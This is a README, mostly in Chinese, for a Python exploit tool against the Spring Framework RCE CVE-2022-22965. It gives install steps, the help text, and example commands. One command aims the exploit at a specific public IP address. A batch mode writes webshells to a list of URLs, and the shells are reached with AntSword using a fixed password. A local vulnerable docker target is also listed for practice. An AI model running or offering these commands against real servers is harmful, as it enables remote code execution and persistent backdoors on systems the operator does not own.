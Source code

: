 # Spring Core RCE/CVE-2022-22965

> 影响范围：JDK>=9 的spring框架及衍生框架
>
> [文章指路](https://thehackernews.com/2022/03/unpatched-java-spring-framework-0-day.html)
>
> **脚本仅供学习使用，如作他用所承受的法律责任一概与作者无关**

## 1.installation

~~~shell
pip3 install -r requirements.txt
~~~

## 2.Usage

```shell
$ python3 spring-core-rce.py -h

 .----..-.-. .---. .-..-. .-..----.     .----. .---. .---. .----.     .---. .----..----.
{ {__-`| } }}} }}_}{ ||  \{ || |--' ___ | }`-'/ {-. \} }}_}} |__} ___ } }}_}| }`-'} |__}
.-._} }| |-' | } \ | }| }\  {| }-`}{___}| },-.\ '-} /| } \ } '__}{___}| } \ | },-.} '__}
`----' `-'   `-'-' `-'`-' `-'`----'     `----' `---' `-'-' `----'     `-'-' `----'`----'


                                                 Spring framework Core RCE
                                                                  By:K3rwin
usage: spring-core-rce.py [-h] [-u URL] [-s SYSTEM] [-r FILE]

Spring framework Core 0day RCE 帮助指南

optional arguments:
  -h, --help            show this help message and exit
  -u URL, --url URL     指定url
  -s SYSTEM, --system SYSTEM
                        指定目标主机操作系统,默认linux,参数为win/linux
  -r FILE, --file FILE  指定url文件，批量写马
```

## 3.example

>使用 -u指定url，-s指定操作系统  参数为：linux 或者 win，默认为linux

```shell
python3 spring-core-rce.py -u "http://1.117.155.217:8080/" -s "linux"
```

![image-20220331203209702](README.assets/image-20220331203209702.png)

![image-20220331203858753](README.assets/image-20220331203858753.png)

> 使用 -r 批量写马 ，使用蚁剑连接，密码为k3rwin

~~~shell
python3 spring-core-rce.py -r "urls.txt"
~~~

![image-20220402112140568](README.assets/image-20220402112140568.png)

![image-20220402112349943](README.assets/image-20220402112349943.png)

## 4.Target

### ①.本地搭建docker靶场:

`docker pull vulfocus/spring-core-rce-2022-03-29:latest`

`docker run -d -p 8080:8080 --name spring-core-rce -it vulfocus/spring-core-rce-2022-03-29`

### ②.[在线靶场](http://vulfocus.io/#/dashboard)